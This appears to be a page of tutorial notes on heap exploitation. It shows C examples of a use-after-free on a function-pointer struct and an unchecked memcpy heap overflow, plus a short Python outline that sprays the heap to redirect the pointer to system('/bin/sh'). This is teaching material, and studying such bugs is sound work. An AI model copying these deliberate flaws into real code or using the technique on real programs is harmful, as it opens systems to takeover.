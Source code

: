 ### Heap Exploitation

**Use-After-Free (UAF):**

```c
// Vulnerable code
struct User {
    char name[32];
    void (*print_user)(struct User *);
};

void print_user_info(struct User *u) {
    printf("User: %s\n", u->name);
}

struct User *user = malloc(sizeof(struct User));
user->print_user = print_user_info;
strcpy(user->name, "Alice");

free(user);  // Free user object

// Later... (user pointer still used)
user->print_user(user);  // Use-after-free! Function pointer may be attacker-controlled
```

**Exploitation strategy:**

```python
# 1. Trigger allocation of object
create_user("Alice")

# 2. Free object
delete_user(0)

# 3. Allocate attacker-controlled data in same location
# (spray heap with controlled data)
for i in range(100):
    create_note(p64(system_address) + b"/bin/sh\x00")

# 4. Trigger use of freed object
view_user(0)  # Calls function pointer → system("/bin/sh")
```

**Heap overflow:**

```c
// Vulnerable code
struct Chunk {
    size_t size;
    char data[128];
    struct Chunk *next;
};

void process_data(struct Chunk *chunk, char *user_input, size_t len) {
    memcpy(chunk->data, user_input, len);  // No bounds check on len!
}
```
